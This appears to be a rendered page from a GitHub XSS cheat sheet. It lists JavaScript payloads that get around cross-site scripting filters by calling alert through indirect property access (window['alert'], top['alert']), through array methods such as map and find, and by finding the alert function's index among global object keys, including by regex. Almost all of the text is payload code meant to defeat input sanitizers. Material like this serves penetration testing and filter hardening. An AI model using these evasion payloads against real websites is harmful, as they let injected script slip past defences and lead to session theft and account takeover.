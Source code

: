 ### Bypass using an alternate way to execute an alert

From [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040)
tweet.

```javascript
window["alert"](0);
parent["alert"](1);
self["alert"](2);
top["alert"](3);
this["alert"](4);
frames["alert"](5);
content["alert"](6)
[7]
  .map(alert)[8]
  .find(alert)[9]
  .every(alert)[10]
  .filter(alert)[11]
  .findIndex(alert)[12]
  .forEach(alert);
```

From
[@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) -
Using global variables

The Object.keys() method returns an array of a given object's own property
names, in the same order as we get with a normal loop. That's means that we can
access any JavaScript function by using its **index number instead the function
name**.

```javascript
c = 0;
for (i in self) {
  if (i == "alert") {
    console.log(c);
  }
  c++;
}
// 5
```

Then calling alert is :

```javascript
Object.keys(self)[5];
// "alert"
self[Object.keys(self)[5]]("1"); // alert("1")
```

We can find "alert" with a regular expression like ^a[rel]+t\$ :

```javascript
a = () => {
  c = 0;
  for (i in self) {
    if (/^a[rel]+t$/.test(i)) {
      return c;
    }
    c++;
  }
}; //bind function alert on new function a()

// then you can use a() with Object.keys

self[Object.keys(self)[a()]]("1"); // alert("1")
```

